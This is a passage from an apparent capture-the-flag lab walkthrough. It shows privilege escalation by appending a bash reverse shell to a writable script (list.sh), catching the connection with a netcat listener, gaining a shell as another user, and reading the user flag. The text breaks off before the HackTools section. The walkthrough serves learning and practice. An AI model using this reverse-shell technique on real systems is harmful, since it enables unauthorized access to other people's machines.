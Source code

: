 **Trying to use the list script to get elevated privileges:**

Start a listener:

```
nc -lvp 9999
```

```
$ echo "/bin/bash -i >& /dev/tcp/192.168.56.1/9999 0>&1" >> list.sh
```

**Getting richard (user):**

```
crazyeights@es-base:~$ nc -lvp 9999
listening on [any] 9999 ...
192.168.56.123: inverse host lookup failed: Unknown host
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.123] 45626
bash: cannot set terminal process group (1166): Inappropriate ioctl for device
bash: no job control in this shell
richard@EC2:~$ ls
ls
HackTools
user.txt
web
richard@EC2:~$ cat user.txt
cat user.txt
3a6b99f59ea363803bcafc7f5dd9b1e8
richard@EC2:~$ 
```

**Checking out web:**

There is a copy(?) of the site in www/html:

```
richard@EC2:~$ cd web
cd web
richard@EC2:~/web$ ls
ls
css
font-awesome
fonts
img
index.html
js
less
license
mail
Maintenance-Web-Docker
readme.md
upload
```

**Checking out HackTools:**
